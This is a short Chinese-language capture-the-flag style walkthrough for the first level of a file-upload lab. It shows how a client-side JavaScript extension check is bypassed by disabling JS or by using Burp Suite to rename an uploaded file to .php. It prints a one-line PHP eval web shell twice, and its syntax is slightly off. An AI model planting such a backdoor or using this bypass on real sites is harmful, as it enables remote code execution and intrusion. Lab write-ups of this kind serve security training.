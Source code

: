 ## 解题wp   (By:独立团孙德胜Alan)

本Pass是客户端过滤，可以通过禁用JS的方式绕过！

#### 1.打开第一关

![](.\img\1.png)

#### 2.上传一个普通的shell.php文件

```php
<?php @eval($_POST('Alan'));?>
```

![](.\img\2.png)

#### 提示不允许上传

![](.\img\3.png)

#### 3.分析代码

![](.\img\4.jpg)

#### 前端JS校验

#### 4.对于前端js验证的绕过方法较为简单，我们可以将要上传的php文件改后缀名为jpg|png|gif,绕过js验证后，再用burp更改上传请求。或者浏览器禁用js后进行上传。

![](.\img\4.png)

![](.\img\5.png)

#### 5.使用工具Burpsutie拦截，修改后缀名为.php

#### 修改图片内容为一句话木马的内容：

```
<?php @eval($_POST('Alan'));?>
```

![](.\img\6.png)

#### 使用重放包功能上传Alan.php：

![](.\img\7.png)

![](.\img\8.png)

#### 6.上传成功！

![](.\img\9.png)

#### 7.使用webshell连接工具连接即可。